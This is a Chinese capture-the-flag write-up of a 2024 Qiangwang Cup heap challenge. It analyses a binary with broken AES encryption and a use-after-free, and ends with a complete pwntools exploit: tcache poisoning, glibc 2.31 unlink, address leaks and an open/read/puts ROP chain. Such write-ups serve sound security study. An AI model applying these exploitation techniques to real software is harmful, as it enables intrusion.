# [强网杯2024 Final] PWN1-heap 详解 (AES+2.31 unlink)-先知社区

> **来源**: https://xz.aliyun.com/news/16084  
> **文章ID**: 16084

---

## ELF安全机制&libc版本

使用 `checksec` 查看程序保护机制，发现保护全开



libc 版本为 2.31



## 程序逆向分析

### 初始化AES密钥和安全机制

对程序进行逆向分析，发现在初始化时有一个细节，选取了 key 的地址高位，作为 `heap_base`，稍后有用



key 储存于堆中，值来自于 `urandom`，所以无法通过随机数预测出 key



沙箱只开启了禁用 `execve`，无法打 ogg。需要使用 `setcontext` 或想办法打 ROP，最终使用 orw 获得 flag



笔者解这道题的思路是使用 `environ` 泄露栈地址打 ROP，将在本文中对这种解法展开具体分析

另外，打 `setcontext` 也是可以的

### **add函数**

申请出堆块以后，程序读取 read 的返回值作为输入长度，记录到 `BookSize`，传递给了 aes 加密



这里使用了一个自定义的 `safe_malloc` 函数，使用之前提到的 `heap_base`，它将我们可以申请的块范围锁定到了 0x1000 以内，所以无法使用常规的 tcache 攻击

由于无法申请出范围以外的地址，这让我们不得不联想到一个另一个攻击方式 —— unlink



aes 这种加密方式属于组加密，密文长度和原文一致，需要以16个为一组，多余出的部分应当使用填充补齐到16再加密，但这里自己实现的 aes 加密实现方式有误，它将不能与16整除的部分直接舍去



### delete函数

free 后未对指针置 null，白送了一个 UAF



### edit函数

edit 里的输入和申请出堆块时的编辑一样，也存在加密



### show函数

执行 show 时会对加密的堆块进行解密，解密长度来自 `BookSize`



另外还能够看到一个细节，`decrypt` 函数接收了一个栈地址作为参数，故这里有机会泄露出一些地址

## 程序漏洞梳理

### 漏洞1

UAF，堆题中很常见的漏洞，也是本题的主要漏洞

### 漏洞2

aes 实现不当导致的漏洞，当我们输入的长度小于16时，会直接以明文形式存储，这使得我们能在不知道 key 的情况下向 chunk 中写入明文

### 漏洞3

show 函数使用 puts，且缓冲区在栈中，可能能够带出一部分数据

### 漏洞4

add 时没有检查序号是否被占用而是直接覆盖了

## 漏洞利用

### 使用show函数泄露PIE地址

由调试得知，栈中只能泄露出一个 `PIE` 基地址。这里顺便用了一次uaf，使一个块拥有了两个编号1和10

```
add(0,"a"*0xf+"~")
add(10,b"a"*16)
dele(10)
add(1)
show(0)
ru('~')
pie=uu64(rl()[:-1])-0x55ff2faadbf0+0x55ff2faac000
log(pie)

```

### 利用UAF漏洞，修改一个tcache chunk低位，申请出key，篡改key

由于堆的随机化仅限于基地址，低3字节是不随机的

这里依次释放0，1

此时的 tcache bin 链：chunk 1 → chunk 2 → 0

我们将其篡改为：chunk 1 → key

随后申请出 chunk1，再申请出 key，即可篡改 key

```
dele(0)
dele(1)

edit(1,"\xa0")

add(0,"a")
add(1,"a"*8)

```

此时相当于我们已知了 aes key，可以突破它的加密机制

### 利用uaf漏洞泄露heap\_base

这就是前面为什么让 chunk1 拥有了两个序号1和10。因为我们重新申请1号块，只向其填入了一个a，chunk1 的 size 变为了1，而 chunk10 仍然保持了 0x10。我们再使用 `show(10)`，仍然可以输出 0x10 字节加密后的内容。之后利用刚刚篡改过的 key 值进行解密，即可得到一个 heap 地址，低位覆盖了一个 0x61，即字符a，但不影响基地址，gdb 调试出偏移后减掉即可

```
show(10)
message=rc(16)

key = b'a'*8+b"\x00"*8
# 待解密的 AES 密文
plaintext = encrypt_aes(message, key)
heap_base=uu64(plaintext[:8])-0x261
log(heap_base)

```

### 利用uaf和刚刚泄露的heap\_base，篡改一个块的大小，造成堆重叠

申请出申请出0用来修改3，3用来被修改 size 覆盖下面的块，uaf 申请出堆地址，申请出20个块用来被覆盖，由于块的大小为 0x400，超出了 tcache 的最大大小 0x400，会被放入 unsorted bin，趁机用 show 泄露出 libc 的基地址，由于是残留地址，和泄露 PIE 地址不同，不需要越界读，所以直接show即可

```
add(0)
add(3)

for i in range(4*5):
    add(15)
dele(10)
dele(0)

edit(0,p64(heap_base+0x378))
add(0)

add(4,p64(0x501))
dele(3)
show(3)
message=rc(16)
plaintext = encrypt_aes(message, key)
libc_base=uu64(plaintext[:8])-0x7fdea91e6be0+0x7fdea8ffa000
log(libc_base)

```

### 构造fake chunk，并篡改其下一个chunk的头

在 chunk2 中制造一个 fake chunk，其与 chunk0 关系如下



随后故技重施，利用 chunk0 和1申请出 chunk3 的头部，修改其 `pre_size` 和 `size`

修改 chunk 3 的 `pre_size` 为 0x30，即改为和 `fake_chunk` 相同。改 flag 位为0，即 size 低位为0，代表 `prev not inuse`，这样在 free 这个 chunk 时，会认为 fake chunk 在 unsorted bin 中且已释放，会进行前向合并

**fake chunk进入unlink环节**

这里不加证明地给出，按照下面伪代码，若符合下列条件

```
*target = &fake_chunk

fd = target - 0x18 
bk = target - 0x10

```

则 unlink 时会使 `target = target -0x20`

我们设置 target 为 chunk2 的指针在 `Booklist` 中的位置，即可满足 `*target=&fake_chunk`

这样即可将指向 chunk2 的指针改为指向该指针地址减 0x20 的地方

```
add(0)
add(1)

target=pie+0x4080+0x10
fd = target - 0x18 #这部分是死的
bk = target - 0x10

fake_heap=p64(0)+p64(0x31)+p64(fd)+p64(bk)
add(2,decrypt_aes(fake_heap,key))

add(3)
for i in range(4*5-1):
    add(15)

dele(1)
dele(0)

edit(0,p64(heap_base+0x430))

add(0)
add(1,decrypt_aes(p64(0x30)+p64(0x500),key))

dele(3)

```

### 利用被篡改过的chunk2指针，泄露stack地址

由于 `&chunk2- 0x20` 的地方是 `Booklist - 0x8`，所以填入 `p64(0)+p64(target)`，即可在 `Booklist[0]` 写入 `Booklist[2]`，然后再 `edit(0)`，相当于向 `Booklist[2]` 中写入一个 `environ`，再 `show(2)`，即可泄露栈地址

```
environ=libc_base+libc.sym["environ"]
edit(2,decrypt_aes(p64(0)+p64(target),key))

edit(0,decrypt_aes(p64(environ)+p64(0),key))
# edit(0,p64(libc_base+0x151bb0))

show(2)
message=rc(16)

key = b'a'*8+b"\x00"*8
# 待解密的 AES 密文
plaintext = encrypt_aes(message, key)
a_stack=uu64(plaintext[:8])
log(a_stack)

```

### 利用被篡改过的指针，篡改返回地址，写入rop链

通过 `edit(0)` 写入一个栈地址，再 `edit(2)` 即可编辑栈地址

由于 chunk 大小只有 0x30，所以这里简洁明了地泄露一个短 rop 链，调用 gets 函数，造成二次溢出，写入 orw rop 链完成攻击

```
edit(0,decrypt_aes(p64(a_stack-0x130)+p64(0),key))
gdba()

pop_rdi=0x23b6a+libc_base
pop_rsi=0x2601f+libc_base
pop_rdx_r12=0x119431+libc_base
gets_addr=libc_base+libc.sym["gets"]
open_addr=libc_base+libc.sym["open"]
read_addr=libc_base+libc.sym["read"]
puts_addr=libc_base+libc.sym["puts"]
payload=p64(pop_rdi)
edit(2,decrypt_aes(p64(pop_rdi)+p64(a_stack-0x130+0x18)+p64(gets_addr)+p64(0),key))
payload=p64(pop_rdi)+p64(a_stack-0x130+0x98)+p64(pop_rsi)+p64(4)+p64(open_addr)+\
    p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(a_stack)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(read_addr)+\
    p64(pop_rdi)+p64(a_stack)+p64(puts_addr)+b"flag\x00"
sl(payload)

```

## EXP 如下

```
from pwn import *
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from base64 import b64decode

def getProcess(ip,port,name):
    global p
    if len(sys.argv) > 1 and sys.argv[1] == 'r':
        p = remote(ip, port)
        return p
    else:
        p = process(name)
        return p

sl = lambda x: p.sendline(x)
sd = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
rc = lambda x: p.recv(x)
rl = lambda: p.recvline()
ru = lambda x: p.recvuntil(x)
ita = lambda: p.interactive()
slc = lambda: asm(shellcraft.sh())
uu64 = lambda x: u64(x.ljust(8, b'\0'))
uu32 = lambda x: u32(x.ljust(4, b'\0'))

def print_hex(bin_code):
    # 转换为十六进制字符串，并在每个字节之间添加空格
    hex_string_with_spaces = ' '.join(f'{byte:02x}' for byte in bin_code)
    print(hex_string_with_spaces)

def gdba(x=''):
    # 如果运行参数后面加了'n' 则不gdb
    if len(sys.argv) > 1:
        if sys.argv[1] == 'n':
            return
    if type(p) == pwnlib.tubes.remote.remote:
        return
    elif type(p) == pwnlib.tubes.process.process:
        gdb.attach(p, x)
        # print('',proc.pidof(p)[0])
        # gdb.attach(proc.pidof(p)[0])
        pause()

def log(message_int):
    success(hex(message_int))

context(os='linux', arch='amd64', log_level='debug',terminal=['tmux','splitw','-h'])

p=getProcess("123",123,"./heap")
libc=ELF("./libc.so.6")
def add(idx,content="a"*0x10):
    sla(">> ","1")
    sla("idx: ",str(idx))
    sa("content:",content)

def dele(idx):
    sla(">> ","2")
    sla("idx: ",str(idx))

def show(idx):
    sla(">> ","3")
    sla("idx: ",str(idx))

def edit(idx,content="a"*0x10):
    sla(">> ","4")
    sla("idx: ",str(idx))
    sa("content:",content)

def encrypt_aes(ciphertext, key):
    cipher = AES.new(key, AES.MODE_ECB)
    encrypted = cipher.encrypt(ciphertext)
    return encrypted

def decrypt_aes(encrypted, key):
    cipher = AES.new(key, AES.MODE_ECB)
    decrypted = cipher.decrypt(encrypted)
    return decrypted

add(0,"a"*0xf+"~")
add(10,b"a"*16)
dele(10)
add(1)

show(0)

ru('~')
pie = uu64(rl()[:-1])-0x55ff2faadbf0+0x55ff2faac000
log(pie)

dele(0)
dele(1)

edit(1,"\xa0")

add(0,"a")
add(1,"a"*8)

show(10)
message = rc(16)

key = b'a'*8+b"\x00"*8
# 待解密的 AES 密文
plaintext = encrypt_aes(message, key)
heap_base = uu64(plaintext[:8])-0x261
log(heap_base)

add(0)
add(3)

for i in range(4*5):
    add(15)
dele(10)
dele(0)

edit(0,p64(heap_base+0x378))
add(0)

add(4,p64(0x501))
dele(3)
show(3)
message = rc(16)
plaintext = encrypt_aes(message, key)
libc_base = uu64(plaintext[:8])-0x7fdea91e6be0+0x7fdea8ffa000
log(libc_base)

add(0)
add(1)

target = pie+0x4080+0x10
fd = target - 0x18 #这部分是死的
bk = target - 0x10

fake_heap = p64(0)+p64(0x31)+p64(fd)+p64(bk)
add(2,decrypt_aes(fake_heap,key))

add(3)
for i in range(4*5-1):
    add(15)

dele(1)
dele(0)

edit(0,p64(heap_base+0x430))

add(0)
add(1,decrypt_aes(p64(0x30)+p64(0x500),key))

dele(3)

environ = libc_base+libc.sym["environ"]
edit(2,decrypt_aes(p64(0)+p64(target),key))

edit(0,decrypt_aes(p64(environ)+p64(0),key))
# edit(0,p64(libc_base+0x151bb0))

show(2)
message = rc(16)

key = b'a'*8+b"\x00"*8
# 待解密的 AES 密文
plaintext = encrypt_aes(message, key)
a_stack = uu64(plaintext[:8])
log(a_stack)
edit(0,decrypt_aes(p64(a_stack-0x130)+p64(0),key))
gdba()

pop_rdi = 0x23b6a+libc_base
pop_rsi = 0x2601f+libc_base
pop_rdx_r12 = 0x119431+libc_base
gets_addr = libc_base+libc.sym["gets"]
open_addr = libc_base+libc.sym["open"]
read_addr = libc_base+libc.sym["read"]
puts_addr = libc_base+libc.sym["puts"]
payload = p64(pop_rdi)
edit(2,decrypt_aes(p64(pop_rdi)+p64(a_stack-0x130+0x18)+p64(gets_addr)+p64(0),key))
payload = p64(pop_rdi)+p64(a_stack-0x130+0x98)+p64(pop_rsi)+p64(4)
payload += p64(open_addr)
payload += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(a_stack)+p64(pop_rdx_r12)+p64(0x30)+p64(0)
payload += p64(read_addr)
payload += p64(pop_rdi)+p64(a_stack)
payload += p64(puts_addr)
payload += b"flag\x00"
sl(payload)

ita()

```
